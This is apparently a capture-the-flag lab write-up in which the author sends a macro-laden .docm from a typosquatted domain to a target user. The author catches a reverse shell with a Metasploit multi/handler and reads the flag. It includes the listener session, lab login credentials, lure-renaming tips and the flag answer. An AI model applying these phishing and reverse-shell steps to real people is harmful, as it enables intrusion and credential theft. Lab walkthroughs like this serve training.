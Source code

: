 ```shell-session
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888
```

## Email the Malicious Document

The malicious document has been created. All you need to do is to send it to the target user. It is time to send an email to the target user, `marta@socmas.thm`. Mayor Malware has prepared the following credentials:

- Email: `info@socnas.thm`
- Password: `MerryPhishMas!`

Notice how Mayor Malware uses a domain name that looks similar to the target user’s. This technique is known as “typosquatting,” where attackers create domain names that are nearly identical to legitimate ones in order to trick victims. On the AttackBox, start the Firefox web browser and head to http://10.10.209.93. Use the above credentials to log in.

Once logged in, compose an email to the target user, and don’t forget to attach the document you created. Changing the name to something more convincing, such as `invoice.docm` or `receipt.docm` might be a good idea. Also, write a couple of sentences explaining what you are attaching to convince Marta May Ware to open the document. **Note:** You can use CTRL+H on the file upload pop-up to be able to see the `.msf4` directory where our email attachment is located.

![](images/Pasted%20image%2020241210210210.png)

## Exploitation

If everything works out, you will get a reverse shell after about 2 minutes. You can access the files and folders on the target system via the command line. You can use `cat` to display any text file.


![](images/Pasted%20image%2020241210210605.png)

Let's apply simple social engineering and send the file, as we suppose we are in a real environment, once sent, let's wait for the connection:


![](images/Pasted%20image%2020241210210730.png)

We got the shell as admin user!

Let's read our flag and end this day.

![](images/Pasted%20image%2020241210210840.png)

Our flag is: `THM{PHISHING_CHRISTMAS}`
